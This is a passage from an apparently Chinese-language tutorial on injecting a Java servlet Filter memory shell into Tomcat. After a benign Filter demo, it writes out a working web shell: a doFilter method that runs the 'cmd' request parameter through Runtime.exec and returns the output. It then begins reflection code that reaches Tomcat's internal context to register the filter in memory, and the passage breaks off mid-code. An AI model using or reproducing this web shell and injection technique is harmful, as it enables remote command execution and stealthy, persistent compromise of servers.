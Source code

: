 ```java
import javax.servlet.annotation.WebFilter;
import java.io.IOException;

@WebFilter(filterName = "FilterDemo")
public class FilterDemo implements Filter {
    public void destroy() {
    }

    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) throws ServletException, IOException {
        System.out.println("exec filter");
        chain.doFilter(req,resp);
    }

    public void init(FilterConfig config) throws ServletException {
        System.out.println("init filter");
    }

}

```
FilterDemo中有init，doFilter，destory三个重要方法
```
init()方法：初始化参数，在创建Filter时自动调用，当我们需要设置初始化参数的时候，可以写到该方法中。
doFilter()方法：拦截到要执行的请求时，doFilter就会执行。这里面写我们对请求和响应的预处理
destory()方法：在销毁Filter时自动调用
```
对我们来说，init和destory不需要做什么，只需要写一个doFilter方法拦截需要的请求，将其参数用于Runtime.getRuntime().exec()做命令执行，并将返回的数据打印到Response中即可，如下例：
```java
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
     String cmd = servletRequest.getParameter("cmd");
     if (cmd!= null) {
         Process process = Runtime.getRuntime().exec(cmd);
         java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                 new java.io.InputStreamReader(process.getInputStream()));
         StringBuilder stringBuilder = new StringBuilder();
         String line;
         while ((line = bufferedReader.readLine()) != null) {
             stringBuilder.append(line + '\n');
         }
         servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
         servletResponse.getOutputStream().flush();
         servletResponse.getOutputStream().close();
         return;
     }
     filterChain.doFilter(servletRequest, servletResponse);
 }
```
### 动态注入
我们将filter部分写好，下一步就是实现将其注入到内存中
```java
protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        PrintWriter out = response.getWriter();
        ServletContext servletContext =  request.getSession().getServletContext();
        try{
            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
            Field stdctx = applicationContext.getClass().getDeclaredField("context");
```